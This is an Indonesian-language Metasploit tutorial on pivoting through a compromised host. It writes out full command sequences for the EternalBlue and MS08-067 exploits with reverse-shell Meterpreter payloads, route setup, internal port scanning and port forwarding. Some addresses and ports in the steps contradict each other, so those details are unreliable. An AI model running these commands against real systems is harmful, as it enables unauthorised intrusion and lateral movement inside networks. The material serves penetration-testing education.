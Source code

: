 # Pivoting dan Route Command di Metasploit

## A. Apa Itu Pivoting?

[Pivoting](https://en.wikipedia.org/wiki/Exploit_(computer_security)#Pivoting) adalah teknik menggunakan sistem yang telah dikompromikan sebagai `hot point` untuk menyerang sistem lain di jaringan internal yang hanya bisa diakses dari dalam.

**Ada dua jenis pivoting:**
- Layer 3 pivoting (routing) -> menggunakan `autoroute` dan `route` di Metasploit.
- Layer 2 pivoting (`ARP spoofing`, `bridge`) -> biasanya dilakukan dengan tools seperti [ettercap](https://www.ettercap-project.org/) atau [bettercap](https://www.bettercap.org/).

## B. Syarat Pivoting di Metasploit

- Sudah ada Meterpreter session di host pertama (pivot point).
- Host tersebut punya akses ke jaringan internal yang ingin dijelajahi.
- Modul `autoroute` atau perintah `route` digunakan untuk menambahkan rute jaringan internal.

## C. Langkah-Langkah Melakukan Pivoting di Metasploit

### 1. Dapatkan Akses ke Mesin Pertama

Contoh:

```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.10
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.5
set LPORT 4444
exploit
```

Dapatkan Meterpreter session ke host A (misalnya `192.168.1.10`).

```
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.1.10:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

meterpreter >
```

### 2. Tambahkan Route Internal dengan `autoroute`

Misalnya, mesin A bisa melihat jaringan internal `192.168.1.0/24`:

```
run autoroute -s 192.168.1.0/24
```

Keterangan:
- `-s` : (subnet) jaringan internal target: `192.168.1.0/24`

Atau manual:

```
background
route add 192.168.1.0 255.255.255.0 1
```

Angka `1` adalah session ID.

Cek route yang sudah ada:

```
route print
```

### 3. Gunakan `auxiliary/scanner` Melalui Route

Kamu sekarang bisa melakukan scanning ke internal network!

Contoh scanning host internal:

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.1-254
set PORTS 22,80,445
run
```

Ini akan meng-scan port (`22`,`80`,`445`) mulai dari host `192.168.1.1` sampai dengan host `192.168.1.254`.

### 4. Port Forwarding (Opsional)

Jika kamu ingin mengakses service internal dari browser (misalnya Web UI internal), gunakan port forward:

```
meterpreter > portfwd add -l 8080 -p 80 -r 192.168.10.10
```

Keterangan:
- `-l` : Port listener: `8888`
- `-p` : Port tujuan di mesin target: `80`
- `-r` : IP target di jaringan internal korban yang akan diakses: `192.168.10.10`

Lalu, buka di browser kamu:

```
http://127.0.0.1:8080
```

### 5. Lanjutkan Eksploitasi ke Mesin Internal

Setelah tahu ada mesin internal dengan service aktif, kamu bisa lanjut menggunakan exploit yang sesuai:

```
use exploit/windows/smb/ms08_067_netapi
set RHOSTS 192.168.10.20
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.100
exploit
```

### Tips Tambahan

- Gunakan `arp` di Meterpreter untuk melihat host yang pernah diakses:

   ```
  meterpreter > arp
  ```

- Gunakan netstat untuk lihat koneksi:

  ```
  meterpreter > netstat
  ```

- Bisa chaining pivot lebih dari satu kali (multi-hop), tapi perlu VPN atau SOCKS proxy (contoh: `auxiliary/server/socks_proxy`).
